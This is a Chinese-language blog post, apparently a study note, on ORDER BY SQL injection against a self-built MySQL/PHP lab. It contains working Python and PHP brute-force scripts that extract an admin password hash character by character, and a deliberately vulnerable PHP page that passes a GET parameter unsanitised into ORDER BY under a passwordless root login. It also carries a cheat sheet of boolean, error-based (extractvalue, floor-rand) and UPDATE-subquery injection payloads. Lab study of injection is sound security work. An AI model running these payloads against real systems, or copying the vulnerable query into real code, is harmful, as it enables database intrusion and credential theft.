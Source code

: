 ```yaml
---
title: order by injection
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
  - python
---
```


 本地搭建测试系统进行注入实践，包含php网页脚本、mysql数据库脚本、python爆破脚本。
 
{% raw %}
<pre>
order by 字段1,字段2 DESC  字段1是排序第一关键字，默认为升序;字段2是排序第二关键字,这里指定为降序
字段2处替换为： IF(1,bananas,cherries) 或 (case when 1 then bananas else cherries end)

ASCII(SUBSTRING((SELECT password FROM fruits WHERE username = 0x41646d696e),1,1))=0x30
</pre>
{% endraw %}

python爆破脚本，用到了requests模块，必须在linux下运行。
{% highlight python %}
#版本1
import requests,string
charset = 'abcdef'+string.digits 
AdminHash=''
url = 'http://192.168.1.101/DebugPHP/3.php'  
for i in range(1,33):
    for c in  charset:  
        payload="?by=3,(CASE WHEN (SELECT SUBSTRING(password,%d,1) FROM fruits where username=0x41646d696e)='%c' +\
                 THEN username ELSE password END) --" %(i, c)
        res = requests.get(url+payload)
        if "21</td><td>System" in res.text:
            AdminHash+=c
            break
print AdminHash  #e10adc3949ba59abbe56e057f20f894e

#版本2
import requests,string
charset = 'abcdef'+string.digits 
AdminHash=''
url = 'http://192.168.1.101/DebugPHP/3.php'  
for i in range(1,33):
    for c in  charset:                 
        payload="?by=IF(SUBSTR((SELECT password from fruits WHERE username  +\
                =CHAR(65,100,109,105,110)),%d,1)=char(%d),username,password) LIMIT 2--" %(i,ord(c))             
        res = requests.get(url+payload)
        if "2</td><td>Admin" in res.text:
            AdminHash+=c
            break
print AdminHash
{% endhighlight %}

php爆破脚本：
{% highlight php %}
<?php
$md5 = '';
$foo = array('0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f');
for($i=1; $i <= 32; $i++)
{
        foreach($foo as $s)
        {
           $s = ord($s);                
           $res = system("wget -O - 'http://192.168.1.100/DebugPHP/3.php?by=IF(SUBSTR((SELECT password from fruits WHERE username=CHAR(65,100,109,105,110)),{$i},1)=CHAR({$s}),username,password) LIMIT 2--' 2>/dev/null | grep Admin");
                if('' != $res)
                {
                    $md5 .= chr($s);
                    break; 
                 }
        }
}
echo "===$md5===";
?>
{% endhighlight %}


php本地注入测试脚本
{% highlight php %}
<?php
function mysql_fetch_all($result)
{
	$rows=array();
	while($row=mysql_fetch_array($result)){
		array_push($rows,$row);
	}
	return $rows;
}
$host = '192.168.1.103';
$dbuser ='root';
$dbpass ='';
$dbname ="security";
$tbname = "fruits";

$con = mysql_connect($host,$dbuser,$dbpass);
if (!$con) echo "Failed to connect to MySQL: " . mysql_error();
mysql_select_db($dbname,$con) or die ( "Unable to connect to the table: $dbname".mysql_error());

$orderby=$_GET['by'];
$sql="SELECT * FROM fruits ORDER BY $orderby LIMIT 10";
$result = mysql_query($sql);
$rows=mysql_fetch_all($result);
 
echo '<table>'.PHP_EOL;
$i = 1;
foreach ($rows as $row)     
{
	//print_r($row);
	echo sprintf('<tr>');
	echo sprintf('<td align="left">%d</td>', $i++);
	echo sprintf('<td>%s</td>', $row['username']);
	echo sprintf('<td>%s</td>', $row['apples']);
	echo sprintf('<td>%s</td>', $row['bananas']);
	echo sprintf('<td>%s</td></tr>', $row['cherries']);
}
echo '</table>'.PHP_EOL;
mysql_close($con);
?>
{% endhighlight %}

mysql数据库脚本
{% raw %}
<pre>
mysql> show databases;
mysql> source /root/Desktop/junk2/test.sql 导入数据
mysql> show tables;
mysql> desc fruits;
+----------+------------------+------+-----+---------+-------+
| Field    | Type             | Null | Key | Default | Extra |
+----------+------------------+------+-----+---------+-------+
| username | varchar(32)      | NO   | PRI |         |       |
| password | char(32)         | YES  |     | NULL    |       |
| apples   | int(10) unsigned | YES  |     | 0       |       |
| bananas  | int(10) unsigned | YES  |     | 0       |       |
| cherries | int(10) unsigned | YES  |     | 0       |       |
+----------+------------------+------+-----+---------+-------+

/*test.sql script*/
use security;
CREATE TABLE IF NOT EXISTS fruits(
username VARCHAR(32) CHARACTER SET ascii COLLATE ascii_general_ci,
password CHAR(32) CHARACTER SET ascii COLLATE ascii_bin,
apples   INT(10) UNSIGNED DEFAULT 0,
bananas  INT(10) UNSIGNED DEFAULT 0,
cherries INT(10) UNSIGNED DEFAULT 0,PRIMARY KEY(username)
);
insert into fruits values ('Horst1','e10adc3949ba59abbe56e057f20f883e',1,1,1);
insert into fruits values ('Harald1','e10adc3949ba59abbe56e057f20f884e',1,1,1);
insert into fruits values ('Horst','e10adc3949ba59abbe56e057f20f885e',1,5,3);
insert into fruits values ('Peter1','e10adc3949ba59abbe56e057f20f886e',1,1,1);
insert into fruits values ('Harald2','e10adc3949ba59abbe56e057f20f887e',2,2,2);
insert into fruits values ('Horst2','e10adc3949ba59abbe56e057f20f888e',2,2,2);
insert into fruits values ('Peter2','e10adc3949ba59abbe56e057f20f889e',2,2,2);
insert into fruits values ('Peter','e10adc3949ba59abbe56e057f20f890e',2,3,5);
insert into fruits values ('Aaron','e10adc3949ba59abbe56e057f20f891e',2,3,4);
insert into fruits values ('Peter3','e10adc3949ba59abbe56e057f20f892e',3,3,3);
insert into fruits values ('Harald3','e10adc3949ba59abbe56e057f20f893e',3,3,3);
insert into fruits values ('Admin','e10adc3949ba59abbe56e057f20f894e',3,2,4);
insert into fruits values ('Horst3','e10adc3949ba59abbe56e057f20f895e',3,3,3);
insert into fruits values ('Horst4','e10adc3949ba59abbe56e057f20f896e',4,4,4);
insert into fruits values ('Harald4','e10adc3949ba59abbe56e057f20f897e',4,4,4);
insert into fruits values ('Peter4','e10adc3949ba59abbe56e057f20f898e',4,4,4);
insert into fruits values ('Harald','e10adc3949ba59abbe56e057f20f899e',4,4,1);
insert into fruits values ('System','e10adc3949ba59abbe56e057f20f900e',5,1,2);
insert into fruits values ('Horst5','e10adc3949ba59abbe56e057f20f901e',5,5,5);
insert into fruits values ('Peter5','e10adc3949ba59abbe56e057f20f902e',5,5,5);
insert into fruits values ('Harald5','e10adc3949ba59abbe56e057f20f903e',5,5,5);
</pre>
{% endraw %}


其他注入知识点：
{% raw %}
<pre>
''=(payload)=''
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'*  (payload)  *'
' or (payload) and '
" – (payload) – "

select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
//Duplicate entry 'security1' for key 'group_key'

update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';

order by apples,IF(1,bananas,cherries) desc
order by apples,(case when 1 then bananas else cherries end) desc

order by 1 and extractvalue(0,concat(0x3a,mid((select password from fruits where username='Admin'),1,16)));
//XPATH syntax error: ':e10adc3949ba59ab'  爆出前16位
order by 1 and extractvalue(0,concat(0x3a,mid((select password from fruits where username='Admin'),17,16)));
//XPATH syntax error: ':be56e057f20f894e'  爆出后16位

select * from fruits order by extractvalue(0,concat(0x3a,(select password from users where username='Dummy')));
//XPATH syntax error: ':p@ssword' 可以爆出其他表中的字段值


mysql常用命令：
select hex('Admin');  /*41646D696E*/
select concat(0x41646d696e);  /*Admin*/

Create database newdb;
use newdb;
CREATE TABLE users(id int(3) NOT NULL AUTO_INCREMENT,username varchar(20) NOT NULL,password varchar(20) NOT NULL,PRIMARY KEY (id));
desc users;  查看表的结构
insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据
</pre>
{% endraw %}

经典文章：

[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)

[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)
